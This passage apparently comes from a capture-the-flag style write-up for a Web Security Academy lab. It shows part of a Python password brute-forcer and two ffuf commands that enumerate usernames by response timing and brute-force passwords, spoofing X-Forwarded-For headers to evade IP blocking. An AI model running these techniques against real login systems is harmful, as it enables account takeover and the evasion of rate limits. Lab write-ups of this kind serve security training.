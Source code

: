 ```python
            # send request with form data: username, password
            self.password = password.strip()
            self.url = self.args[1]
            self.cookies = {}
            self.headers = {'X-Forwarded-For': f"hihihi{x}"}
            response = self.req.post(self.url, data={"username": self.username, "password": self.password}, proxies=self.proxies, verify=False, headers=self.headers)
            if response.text and not "Invalid username or password" in response.text:
                print(f"⚖️ Found password: {self.password}")
                with open("auth-timing-password-result", "w") as f:
                    f.write(self.password)
                break
        exit(0)

AuthBruteForcePassword().brute_force_password()
```

<a href="https://asciinema.org/a/VzC6Vnzv1Hip8KPi7PbhLX5XI" target="_blank"><img src="https://asciinema.org/a/VzC6Vnzv1Hip8KPi7PbhLX5XI.svg" /></a>

## ffuf username and password enumeration with different timing

### Username

Find the way that the website is protecting against username enumeration - 
`X-Forwarded-For` header, that blocks in IP. Then use ffuf to enumerate usernames. Give it a list of usernames, and use the `-ft` flag to filter out responses that are too fast.

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0aa8003304124f0c80ecc11100fe0055.web-security-academy.net/login -w auth-timing/auth-timing-usernames:FUZZ -H "X-Forwarded-For: FUZZ-1" -c -d "username=FUZZ&password=..................................................................................................................................................................................................................................................................................................................................................................................................................................................................." -c -v -r -ft "<1000"
```

### Password

Take the username from above command, and use it to brute force the password. Use the `-fs` flag to filter out responses that are mostly similar. This will give just the response that is different, which is the correct password.

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0aa8003304124f0c80ecc11100fe0055.web-security-academy.net/login -H "X-Forwarded-For: FUZZ2-2" -w auth-timing/auth-timing-passwords:FUZZ2 -c -d "username=_FROM_COMMAND_ABOVE_&password=FUZZ2" -c -v -r -fs 3141,3194
```

<a href="https://asciinema.org/a/6Nhon5SPNy61jTnNJ9yN01f2F" target="_blank"><img src="https://asciinema.org/a/6Nhon5SPNy61jTnNJ9yN01f2F.svg" /></a>
